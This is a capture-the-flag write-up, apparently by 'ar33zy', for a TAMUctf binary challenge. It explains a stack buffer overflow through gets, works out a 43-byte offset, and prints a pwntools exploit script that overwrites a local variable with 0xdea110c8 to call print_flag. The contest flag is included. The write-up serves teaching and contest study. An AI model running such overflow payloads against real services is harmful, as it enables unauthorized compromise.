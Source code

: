 This shows the function call for the last user input.

> **QUICK RECAP:** The value of $eax before a function call serves as the first argument of the function.

The code snippet above shows that the user input is written to **$ebp-0x3b**.

Since the input function used is **gets**, and not **fgets**, there is no limit on the input string.

Given the details above, we can write a long string to **$ebp-0x3b** that will overflow to **$ebp-0x10**. Take note that **$ebp-0x10** should have the exact value of **0xdea110c8**.

Let’s compute the distance of **$ebp-0x3b** and **$ebp-0x10**:

```
**0x3b - 0x10 = 43 bytes (offset)**
```

The payload structure for the last input is:

```
**payload = <43 bytes buffer>** + **0xdea110c8** 
```

This payload will overwrite the value of **$ebp-0x10** with **0xdea110c8**.  The last condition will be satisfied and the program will proceed to call the **print\_flag** function.

```
0x565558b2 <+313>: cmp    DWORD PTR \[ebp-0x10\],0xdea110c8  
0x565558b9 <+320>: jne    0x565558c2 <main+329> (will not jump)  
0x565558bb <+322>: call   0x565556fd <print\_flag> <-- WIN 
```

Sample exploit code:

```
./exploit.py

from pwn import \*

r = remote('pwn.tamuctf.com', 4321)

r.sendlineafter("?","Sir Lancelot of Camelot")  
r.sendlineafter("?","To seek the Holy Grail.")

offset = 43

payload = ""  
payload += "A"\*offset  
payload += p32(0xdea110c8)

r.sendlineafter("?",payload)  
r.recvline()  
r.recvline()

log.info("Flag: {}".format(r.recvline()))
```

Flag: **gigem{34sy\_CC428ECD75A0D392}**

\-

Thank you for reading. Hope you learned something from this write-up. Feel free to drop any comments on this one. 

— ar33zy
